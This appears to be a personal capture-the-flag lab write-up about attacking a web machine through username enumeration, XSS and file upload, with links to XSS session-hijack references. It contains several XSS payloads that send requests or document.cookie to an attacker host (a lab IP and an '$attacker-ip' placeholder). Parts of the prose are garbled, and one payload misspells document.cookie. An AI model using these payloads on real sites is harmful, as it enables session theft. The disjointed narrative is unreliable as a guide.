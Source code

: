 ```html
<script>fetch('http://10.10.14.29');</script>

<script>fetch('http://10.10.14.29')</script>

<script>new Image().src="http://$attacker-ip:port/cookiejar.jpg?output="+document.cookie;</script>
```

https://gist.github.com/YasserGersy/a0fee5ce7422a558c84bfd7790d8a082 - javascript mutli lines payload into one line
https://medium.com/@yassergersy/xss-to-session-hijack-6039e11e6a81



We can enumerate usernames with the register page
![](adminexists.png)

Here began after being informed by a team mate out that there is XSS, which he definately managed to make work, where I could not for many hours of wait for Cookies.
![](xssattempt.png)

This spawned days of improving what I have learnt about XSS to find out there is also a Race Condition to add to my struggles of not receiving Cookies for many hours I did receive some on other boxes like the [[Schooled-Helped-Through]] machine. 
![](aboutreports.png)
I noticed the HttpOnly flag so this machine is beyond what thought possible and if I had known the out from the recent move in discord servers of HackSmarter team I would have dismissed his claims. Sometimes it is about who you know in a perspective shifting mind bending kind of way. [HttpOnly OWASP; URL: https://owasp.org/www-community/HttpOnly](https://owasp.org/www-community/HttpOnly)
![](httponlyflag.png)

For complete visibility over the potential on escalation at some point I tested the file upload functionality. I am also sure I am also really trying to build in packets and connections in doing anything. The how and why.. and the endless questions of actually making some sort of way towards an acceptable spending my first Saeculum, to learning from my endless failings and mistakes.
![](fileuploadhijackattempt.png)

Apparently this form-container is where out managed to escalate again at some point in stages of escalation
![](flashmessagedouble.png)

Looking at the Cookie in Cyberchef
![](cyberchefthecookie.png)

Having made at least four hours of attempts at waiting for 30-60 seconds for cookie, I am openly keen to be helped. 

Get some cookies, reset if it does not work - (out: HackSmarter)
```html
<script>fetch("http://10.10.14.39"+document.cookies)</script>
```
![](cookiespleasethxouthopefully.png)

